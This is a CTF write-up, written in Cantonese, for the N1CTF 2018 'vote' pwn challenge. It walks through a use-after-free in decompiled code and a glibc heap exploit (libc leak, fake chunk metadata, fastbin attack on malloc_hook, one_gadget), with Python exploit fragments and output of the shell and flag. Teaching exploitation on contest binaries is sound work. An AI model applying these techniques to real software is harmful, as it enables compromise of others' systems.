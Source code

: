 # vote 250(pwn)

題目:

>hk node: nc 47.90.103.10 6000
>
>cn node: nc 47.97.190.1 6000
>
>(Two challenge servers are identical, use either of them.)
>
>[Download](b8a4590d-9fee-4a34-8396-d63adac62a0d.zip)


menu:
```
0: Create
1: Show
2: Vote
3: Result
4: Cancel
5: Exit
Action: 
```

呢條係經典嘅 use-after-free 題目

Create 嘅 code:

```C++
void sub_400D2C()
{
...........
for ( i = 0; i <= 15; ++i )
  {
    if ( !*(&ptr + i) )
    {
      sub_400C52(4199328LL);
      v2 = sub_400C90(4199328LL);
      if ( v2 > 0 && v2 <= 4096 )
      {
        v0 = malloc(v2 + 16);
        *(_QWORD *)v0 = 0LL;
..............
}
```

Cancel 嘅 code:

```C++
void sub_40109D()
{
  char *v0; // rsi@8
  int v1; // [sp+Ch] [bp-4h]@1

  sub_400C52("Please enter the index: ");
  v1 = sub_400C90("Please enter the index: ");
  if ( v1 >= 0 && v1 <= 15 && *(&ptr + v1) )
  {
    if ( --qword_602180[v1] == --*(_QWORD *)*(&ptr + v1) )
    {
      if ( qword_602180[v1] < 0 )
        free(*(&ptr + v1));
    }
    else if ( qword_602180[v1] < 0 )
    {
      v0 = (char *)*(&ptr + dword_602160) + 16;
      printf("%s", v0);
      fflush(stdout);
      sub_400C00(" has freed", v0);
      free(*(&ptr + v1));
      *(&ptr + v1) = 0LL;
    }
  }
}
```

個bug就係free 之後冇清返ptr array 相應entry做0,引致UAF

有一個注意位就係,如果我request 0x20 name size, 實際會return 0x40 嘅object(冇睇清楚ida code嘅後果.........) 

之後就係基本套路 leak libc-> fastbin attack -> get shell


不過由於冇得直接edit, 所以有好多error chk 要bypass .....


當leak完 libc, trigger consolidation之後, malloc 一個大少少嘅chunk 覆蓋晒之前個d chunk 嘅address

之後再寫假嘅meta data 去上一手memory address 相應嘅位置 (error chk bypass eg 前後位size 要match  )

再free 返chunk 0 防止再malloc 個陣trigger heap inside freed heap error 



之後malloc一個0x50(0x70) 拎左最頂塊chunk,再malloc 一個0x50(0x70) fastbin 就可以有arbitary writing...

```python
create("qqqq",0x50)
create("A"*3+p64(rce)*4,0x50)
print "[+]get shell :)"
r.sendline("0")
sleep(1)
#triger one gadget
r.sendline("4000")
r.sendline("$0")
r.sendline("ls -al")
r.interactive()
```

Contest 個陣唔知點解local libc 會有size error, 於是加左個for loop 令個malloc_hook layout valid返...

可能之前打錯左size 掛??



```python
#just to make the structure around main_arena "align"
#to bypass the malloc checking
#for i in range(1,11):
#    create("QQQQ",0x10*i)

````

# Solution


solution: [solve.py](solve.py)

```
# [*] '/root/Desktop/CTF_Game/n1ctf_2018/vote/libc-2.23.so'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
# [*] Paused (press any to continue)
# 139870119717752

# 0x7f360ccceb78
# leaked libc =0x7f360c90a000
# malloc_hook = 0x7f360ccceb10
# one = 0x7f360c9fa274
# [+]get shell :)
# [*] Switching to interactive mode
# Please enter the name's size: total 36
# dr-xr-xr-x 2 pwn  pwn   4096 Mar 10 18:38 .
# drwxr-xr-x 3 root root  4096 Mar  8 15:28 ..
# -rw-r--r-- 1 pwn  pwn    220 Mar  8 15:28 .bash_logout
# -rw-r--r-- 1 pwn  pwn   3771 Mar  8 15:28 .bashrc
# -rw-r--r-- 1 pwn  pwn    655 Mar  8 15:28 .profile
# -rw-r--r-- 1 root root    26 Mar  9 11:12 flag
# -rwxr-xr-x 1 root root 10544 Mar  8 15:29 vote
# $ cat flag
# N1CTF{Pr1nTf_2333333333!}
# $  

```
